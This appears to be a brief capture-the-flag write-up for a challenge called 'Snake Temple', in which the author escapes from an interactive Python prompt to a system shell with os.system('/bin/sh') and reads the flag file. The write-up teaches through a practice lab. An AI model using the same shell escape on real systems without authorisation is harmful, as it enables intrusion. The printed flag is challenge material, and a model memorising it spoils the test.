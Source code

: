 # Snake Temple writeup
It's an interactive python. Let's try to get a shell with the `system` library:

```python
>>> from os import system
>>> system("/bin/sh")
```

And it works!

```bash
$ ls
flag.txt
runner.sh
$ cat flag.txt
li2CTF{5N4K3_15_4N_1nflu3n714l__Cr347ur3}
```

Flag: `li2CTF{5N4K3_15_4N_1nflu3n714l__Cr347ur3}`
